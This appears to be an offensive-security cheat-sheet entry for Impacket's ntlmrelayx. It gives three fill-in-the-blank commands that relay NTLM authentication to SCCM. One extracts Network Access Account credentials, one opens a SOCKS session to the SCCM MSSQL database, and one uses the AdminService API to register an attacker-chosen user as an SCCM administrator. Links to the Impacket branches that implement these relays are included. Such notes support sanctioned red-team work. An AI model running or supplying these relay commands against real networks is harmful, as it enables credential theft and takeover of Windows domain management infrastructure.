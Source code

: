 # ntlmrelayx (imp)

% impacket-mitm, windows, smb, 445, sccm

#plateform/linux  #target/remote #cat/ATTACK/RELAY


## relay to sccm (NAA extraction)
#plateform/linux #target/serve #cat/ATTACK/MITM 
https://github.com/Tw1sm/impacket/tree/feature/sccm-relay
```bash
sudo ntlmrelayx.py -t http://<sccm_fqdn>/ccm_system_windowsauth/request --sccm --sccm-device <fake_computer|jubeaz> --sccm-fqdn <sccm_fqdn> --sccm-server <sccm_name> --sccm-sleep 10 -smb2support
```

## relay to mssql (sccm$ ooerce)
then mssqlclient.py ntlm relayed auth (computer)
```bash
sudo ntlmrelayx.py -t "mssql://<sccm_mssql_ip>" -smb2support -socks
```

## relay to adminservice (http API)
https://github.com/fortra/impacket/pull/1593
https://github.com/garrettfoster13/impacket/blob/feature/relay-sccm-adminservice/examples/ntlmrelayx.py
```bash
ntlmrelayx.py -t https://<sccm_fqdn>/AdminService/wmi/SMS_Admin -smb2support --adminservice --logonname "<domain_netbios>\<user>" --displayname "<domain_netbios>\<user>" --objectsid <user_sid>
```
